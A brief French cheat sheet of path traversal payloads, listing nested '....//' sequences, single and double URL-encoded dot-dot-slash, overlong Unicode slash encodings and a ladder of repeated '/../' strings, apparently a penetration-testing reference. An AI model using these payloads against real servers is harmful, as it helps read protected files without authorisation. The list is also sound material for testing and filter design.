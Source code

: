 ## Path traversal

## Sequences imbriquées

- `....//`
- `....\/`

## URL encodé

- `%2e%2e%2f` : encode simple
- `%252e%252e%252f` : encode double

## Encodage non standard

- `..%c0%af`
- `..%ef%bc%8f`

## Sequences de path traversal 

```
/..
/../..
/../../..
/../../../..
/../../../../..
/../../../../../..
/../../../../../../..
/../../../../../../../..
/../../../../../../../../..
/../../../../../../../../../..
/../../../../../../../../../../..
/../../../../../../../../../../../..
/../../../../../../../../../../../../..
/../../../../../../../../../../../../../..
```